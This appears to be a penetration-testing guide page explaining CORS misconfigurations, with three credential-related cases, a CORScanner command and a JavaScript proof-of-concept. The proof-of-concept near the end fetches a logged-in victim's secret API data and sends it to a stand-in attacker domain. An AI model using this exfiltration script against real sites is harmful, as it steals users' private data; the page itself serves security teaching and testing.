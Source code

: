 # 🛠️ CORS (Cross-Origin Resource Sharing)

## Theory

Sometimes browsers need to load resources from another origin other than their own. The Same-Origin Policy mechanism (SOP) restricts access to resources on other origins.&#x20;

{% hint style="info" %}
The same-origin is defined for two URLs that have the same protocol, port (if specified), and host.
{% endhint %}

To bypass this limitation, the JSON-P technique (in JavaScript) was introduced. To retrieve information from another origin, it uses the `<script>` tag (which is not blocked by the SOP). Unfortunately, this technique has some issues and lacks controls in some cases. Here we introduce CORS.

Cross-Origin Resource Sharing (CORS) is a header-based mechanism. It improves security and flexibility for cross-domain resource sharing. CORS is relatively new and therefore, not very well-known. As result, misconfigurations are common and bring security concerns. The main vulnerabilities lie in the overly permissive access to credentials from non-controlled domains.

### Misconfigurations

The exploitation will depend on the misconfiguration. The next image shows a path that can be followed:

![](../../../.gitbook/assets/CORS.png)

#### Case 1

Misconfiguration:

* `Access-Control-Allow-Credentials: true`
* `Access-Control-Allow-Origin: regex`

The origins are verified through a regex match.\
The misconfiguration types can be better understood with this table:

![https://github.com/chenjj/CORScanner](../../../.gitbook/assets/misconfiguration\_cors.PNG)

{% hint style="warning" %}
The configuration below is [impossible](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS#requests\_with\_credentials):

* `Access-Control-Allow-Credentials: true`
* `Access-Control-Allow-Origin: *`
{% endhint %}

#### Case 2

Misconfiguration:

* `Access-Control-Allow-Credentials: true`
* `Access-Control-Allow-Origin: null`

According to [James Kettle](https://portswigger.net/research/exploiting-cors-misconfigurations-for-bitcoins-and-bounties), browsers might send the value `null` in the `Origin` header in some unusual situations:

* Cross-site redirects.
* Requests from serialized data.
* Request using the `file:` protocol.
* Sandboxed cross-origin requests.

The value `null` when the server sends credentials is the worst-case scenario. It means any origin can request credentials without limitation.

#### Case 3

Misconfiguration:

* `Access-Control-Allow-Credentials: false`
* `Access-Control-Allow-Origin` is dynamically generated
* `Vary: Origin` is absent

In this case, it's possible to conduct a client-side poisoning.

Check [James Kettle](https://portswigger.net/research/exploiting-cors-misconfigurations-for-bitcoins-and-bounties)'s explanation for more information.&#x20;

## Practice

During a penetration test, exploiting CORS misconfigurations is difficult. The attacks may rely on manipulating a victim or even finding configuration issues on other domains (which can be out of scope).

However, it's possible to get a Proof-of-Concept using JavaScript by registring a domain (to abuse a CORS misconfiguration).

### Tool

The tool [CORScanner ](https://github.com/chenjj/CORScanner)is useful in finding misconfigurations. It relies on the table shown in the misconfiguration case 1.

```bash
python cors_scan.py -u $URL
```

{% hint style="info" %}
It is advised to use the verbose option `-v` to see the tests.
{% endhint %}

{% hint style="warning" %}
It is possible to customize the third parties origins in the file `origins.json`.
{% endhint %}

### Proof-of-Concept (PoC)

To steal sensitive information, the victim has to be logged in the vulnerable website. From there, if the victim is redirected to the attacker's website (containing the script below), the sensitive information will be retrieved by the attacker.

```javascript
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://vulnerable.domain/api/secret-data',true); 
req.withCredentials = true;
req.send();

function reqListener() {
    location='//atttacker.domain/log?response='+this.responseText; 
};
```

## Resources

{% embed url="https://portswigger.net/research/exploiting-cors-misconfigurations-for-bitcoins-and-bounties" %}

{% embed url="https://www.jianjunchen.com/publication/an-empirical-study-of-cors/" %}
